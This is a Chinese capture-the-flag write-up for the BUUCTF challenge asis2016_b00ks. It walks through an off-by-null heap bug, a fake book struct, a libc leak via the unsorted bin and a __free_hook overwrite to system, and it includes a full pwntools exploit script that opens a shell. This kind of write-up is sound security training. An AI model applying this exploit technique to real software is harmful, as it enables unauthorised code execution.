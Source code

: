 题目来源：[BUUCTF在线评测](https://buuoj.cn/challenges#asis2016_b00ks)

关于这个知识点我用一个例题来讲解吧，这个知识点和off by one的区别在于，后者可以溢出一个字节，而后者则是溢出的是只能\x00字节。

关于函数的刚开始的结构是如下图
![[Pasted image 20250501172710.png]]
函数的刚开始是存在一个change关于author的name的输入，这里是存在一个溢出\x00
![[Pasted image 20250501172228.png]]


下面的函数如下
![[Pasted image 20250501172303.png]]

我们还可以发现edit函数也是存在溢出\x00字节,和上面的图二的溢出是一样的
![[Pasted image 20250501173002.png]]

下面的是show函数，也就是打印id，name，describption,author。
![[Pasted image 20250501173040.png]]

运行如下
![[Pasted image 20250501173307.png]]

刚开始运行一个create就会创建一个book的struct的，结构体如下：

```c
struct book{

    int id;
    void *name;
    void *description;
    int size;

}
```
![[Pasted image 20250501174633.png]]

观察create的函数创建的结构如下：
![[Pasted image 20250501173959.png]]
都是根据off_202010的地址
创建的结构体的地址会放在bss段
![[Pasted image 20250501173827.png]]


#### 做法一

我们创建三个book，我们发现在bss段的地址可以显示出来下面的三个地址都是book的地址。
![[Pasted image 20250501174824.png]]
我们随便进去一个看看,发现第一个空间放的是book的id，第二个是book_name这个chunk的地址，第三个地址方放的是book_description的chunk的地址，第四个放的是book_description的chunk的大小。
![[Pasted image 20250501175007.png]]

我们现在思路是先申请三个book的空间，利用可以change的函数的off by null来将第一个book的地址 0x000056555b6b4160 覆盖成0x000056555b6b4100，这样我们就跑去0x000056555b6b4100的地址伪造一个book的结构体，我们的结构体第一个地址填入id=1,第二个地址填写book_name=unsortedbin->fd的地址，这样我们就可以将free(2)后将main_arena的地址给打印出来，这样我们就将libc的地址泄露出来了，然后我们将第三个空间的地址填写成第三个book的结构体中的description的地址，这样我们就控制了第三个块的sescrition的空间指向了。

我们需要改成的结构如下：

![[Pasted image 20250501181119.png]]

我们前面的计划的大前提是能泄露出来heap的地址，正好我们可以发现上面关于bss段的地址发现的author填满后的地址就是book结构体存放的地址，也就是说我们需要利用change来泄露book的地址，直接show打印就行。

然后我们需要用libc算出free_hook的地址，我们再用edit(1)去将我们伪造的fake1的description的指针指向的地址改成free_hook的地址，然后这时我们book3的description的地址也改成了free_hook的地址了，我们再edit(3)后将free_hook的指向的内容改成我们想要的one_gadget或者system

这时就大功告成了。

记得修改的时候要保证其他的book的内容正常。

```python
from pwn import*

from LibcSearcher import LibcSearcher
# context.log_level='debug'

context.terminal=['tmux','split','-h']

  

elf=ELF('./b00ks')

file = process('./b00ks')

# file=remote('node5.buuoj.cn',25387)

libc=ELF('./libc-2.23.so')

  

menu='>'

def add(size, content,des_size,des_content):  

    file.sendlineafter(menu, str(1))  

    file.sendlineafter("Enter book name size:", str(size))  

    file.sendlineafter("Enter book name (Max 32 chars):", content)

    file.sendlineafter("Enter book description size:",str(des_size))

    file.sendlineafter("Enter book description: ",des_content)

  

def edit(idx, content):  

    file.sendlineafter(menu, str(3))  

    file.sendlineafter("Enter the book id you want to edit:", str(idx))  

    file.sendlineafter("Enter new book description:", content)  

  

def free(idx):  

    file.sendlineafter(menu, str(2))  

    file.sendlineafter("Enter the book id you want to delete:", str(idx))  

  

def show():  

    file.sendlineafter(menu, str(4))

  

def change():

    file.sendlineafter(menu, str(5))

    file.sendlineafter('Enter author name: ',b'a'*0x20)  

file.recvuntil("Enter author name:")

file.sendline(b'a'*32)

add(0x90,'',0x90,'')

add(0x80,'',0x20,'')

add(0x20,b'/bin/sh\x00',0x20,b'/bin/sh\x00')

show()

gdb.attach(file)

  

file.recvuntil(b'a'*0x20)

book_1 = u64(file.recv(6).ljust(8,b'\x00'))

  

edit(1,b'a'*0x40+p64(1)+p64(book_1+0x30)+p64(book_1+0x190)+p64(0x20))

change()

  

free(2)

show()

file.recvuntil("Name: ")

main_arena_88 = u64(file.recv(6).ljust(8, b'\x00'))

main_arena_addr = main_arena_88 - 88

malloc_hook_addr = main_arena_addr - 0x10

libc_base = malloc_hook_addr - libc.sym['__malloc_hook']

sys_addr = libc_base + libc.sym['system']

one=[0x4527a,0xf03a4,0xf1247]

one_gadget = libc_base + one[2]

  

free_hook = libc_base + libc.sym['__free_hook']

edit(1,p64(free_hook)+p64(0x10))

edit(3,p64(sys_addr))
log.success('free_hook==>'+hex(free_hook))
log.success('one_gadget_addr ==>>:'+hex(one_gadget))
log.success('system_addr ==>>:'+hex(sys_addr))
log.success('malloc_hook_addr ==>>:'+hex(malloc_hook_addr))
log.success('book_1 ==>>:'+hex(book_1))
free(3)

file.interactive()
```


#### 做法二

说是做法二，其实使用另一种mmap泄露libc的方法来做，大致核心流程不变的。

这个等我想做再写吧
。